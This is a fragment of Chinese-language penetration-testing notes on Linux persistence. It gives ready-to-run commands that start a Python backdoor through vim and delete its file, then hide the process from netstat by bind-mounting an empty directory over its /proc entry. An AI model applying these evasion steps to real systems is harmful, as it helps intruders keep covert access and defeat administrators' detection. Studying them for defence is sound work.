 将netstat -anpt 查看到的可疑连接隐藏起来，解决方法：
既然是后门，那么就不能留下自己创建的文件，可以将删除命令直接拼接到命令上

~~~
(nohup vim -E -c "py3file dir.py"> /dev/null 2>&1 &) && sleep 2 && rm -f dir.py
~~~

![image-20220921215222158](权限维持.assets/image-20220921215222158.png)

**隐藏进程**

~~~
mkdir null
mount --bind null /proc/6238
netstat -anpt
~~~

## 6. Cat隐藏

[[总结\]Linux权限维持 - 肖洋肖恩、 - 博客园 (cnblogs.com)](https://www.cnblogs.com/-mo-/p/12337766.html)